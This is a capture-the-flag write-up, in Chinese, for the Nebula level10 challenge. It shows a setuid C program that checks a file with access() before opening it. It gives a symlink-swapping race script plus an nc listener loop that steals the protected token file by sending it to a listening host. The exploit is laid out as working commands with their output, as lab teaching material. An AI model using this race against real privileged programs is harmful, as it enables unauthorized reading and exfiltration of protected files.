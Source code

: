 ```
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

我们需要给该程序传递两个参数，一个file(文件名), 一个host(主机名)，这个程序的功能是，先检查file是否可读，如果可读，则与host:18211建立tcp连接，然后open(file)，发送文件内容。如下测试该程序功能：
```
level10@nebula:/home/flag10$ vim /tmp/a
ffffff
--------
; 在本机(192.168.56.1)上
$ while [ 1 ];do nc -l 18211; done
--------
level10@nebula:/home/flag10$ ./flag10 /tmp/a 192.168.56.1
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
--------
; 本机
.oO Oo.
ffffff
```

本题的漏洞在于，先是检查文件是否可读，但是并没有打开，如果检查完文件可读之后，在建立tcp连接的过程中，我把文件改成一个level10不可读，但是flag10可读的文件，程序任然能正常运行，过程如下：
```
level10@nebula:/home/flag10$ vim /tmp/level10.sh
#!/bin/sh
while [ 1 ];
do
        ln -sf /tmp/a /tmp/fff
        ln -sf /home/flag10/token /tmp/fff     
done
level10@nebula:/home/flag10$ bash /tmp/level10.sh
level10@nebula:/home/flag10$ while [ 1 ]; do ./flag10 /tmp/fff 192.168.56.1; done
-----------
; 你会在本机上看到token文件内容
```
